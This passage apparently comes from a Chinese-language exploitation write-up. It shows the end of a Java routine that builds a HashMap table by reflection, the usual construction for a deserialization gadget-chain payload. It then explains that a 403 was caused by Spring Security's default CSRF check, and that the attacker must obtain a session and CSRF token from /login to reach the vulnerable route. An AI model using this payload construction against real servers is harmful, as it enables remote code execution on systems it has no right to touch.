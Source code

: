 ```bash
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
}
```

### 坑点

这里打过去的时候发现竟然报了 403，可是就算没鉴权也应该是 401 才对

[![](assets/1709112106-b11f358202bfa2c184960f6cf74588ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227200756-d7af7e80-d568-1.png)

其实这里返回 403 的原因实际上是`Spring Security`​默认会开启 csrf 验证，如果要手动关闭这个 CSRF 的校验需要写入以下代码

```bash
http.csrf().disable()
```

那么这里默认是开启的，所以我们需要去登录的接口处拿到我们的对应的 Session+CSRFtoken 才可以访问该路由

访问`/login`
